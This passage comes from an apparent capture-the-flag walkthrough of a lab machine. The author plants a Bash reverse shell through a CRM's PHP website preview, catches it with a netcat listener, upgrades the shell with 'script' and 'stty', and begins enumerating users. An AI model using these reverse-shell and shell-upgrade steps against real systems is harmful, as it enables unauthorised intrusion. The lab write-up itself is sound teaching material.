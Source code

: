![image-20240531092602396](/img/image-20240531092602396.png)

Note that in order to get the PHP to run in the preview, I must has the “Show dynamic content” toggle enabled, which is it not by default.

### Shell

I’ll update the source to invoke a [Bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw):

![image-20240531093103409](/img/image-20240531093103409.png)

When I save this (and it tries to preview), the browser hangs. At my listening `nc`, there’s a shell:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.11 34692
bash: cannot set terminal process group (861): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/website$

```

I’ll upgrade it using [the standard technique](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

www-data@boardlight:~/html/crm.board.htb/htdocs/website$ script /dev/null -c bash
Script started, file is /dev/null
www-data@boardlight:~/html/crm.board.htb/htdocs/website$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            ‍reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@boardlight:~/html/crm.board.htb/htdocs/website$

```

## Shell as laraissa

### Enumeration

#### Users

There is one user with a directory in `/home`:

```

www-data@boardlight:/home$ ls
larissa

```

